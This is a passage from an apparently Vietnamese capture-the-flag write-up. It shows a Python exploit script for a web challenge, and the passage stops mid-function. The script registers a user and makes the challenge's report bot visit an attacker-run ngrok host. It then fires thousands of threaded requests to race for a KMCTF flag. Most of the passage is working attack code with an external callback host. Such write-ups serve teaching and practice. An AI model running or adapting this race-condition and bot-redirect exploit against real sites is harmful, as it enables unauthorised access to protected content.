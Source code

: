 Mình sẽ chạy file này và public nó qua ngrok. 

![image](https://hackmd.io/_uploads/Sy-5ixd5xg.png)

![image](https://hackmd.io/_uploads/ryP2jlO9lx.png)

#### File `script.py`

```python=
import requests 
import threading 
import time 
import os 
import urllib.parse 
from bs4 import BeautifulSoup
import re 

BASE_URL = "http://localhost:19101"
NUM_GET_REQUESTS = 5000 
FLAG_REGEX = r"KMCTF\{[^\}]+\}"
TEST_USERNAME = "hoangphuc"
TEST_PASSWORD = "hoangphuc"
REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"
REPORT_POST_URL = f"{BASE_URL}/api/report?url=http%3A%2F%2F0.tcp.ap.ngrok.io%3A11165"
ACCESS_GET_URL = f"{BASE_URL}/post/1?code=1337"

stop_event = threading.Event() 

def find_and_print_flag(response_text):
    soup = BeautifulSoup(response_text, 'html.parser')
    post_content_divs = soup.find_all('div', class_='post-content')
    for div in post_content_divs:
        content_text = div.get_text()
        match = re.search(FLAG_REGEX, content_text)
        flag = match.group(0)
        print(f"🎉 Found flag: {flag}")
        stop_event.set()
        os._exit(0)
        
def register_user(session, username, password):
    data = {
        "username": username,
        "password": password
    }
    session.post(REGISTER_URL, data=data, headers={"Referer": f"{BASE_URL}/register"})
    
def login_user(session, username, password):
    data = {
        "username": username,
        "password": password
    }
    session.post(LOGIN_URL, data=data, headers={"Referer": LOGIN_URL}, allow_redirects=True)
    
def send_report_post_request(session, csrf_token_header_value):
    if stop_event.is_set():
        return 
    X_CSRF_Token_header = {"X-CSRF-Token": csrf_token_header_value}
    session.post(REPORT_POST_URL, headers=X_CSRF_Token_header)
    
def send_access_get_request(session, request_id):
    if stop_event.is_set():
        return 
    response = session.get(ACCESS_GET_URL)
```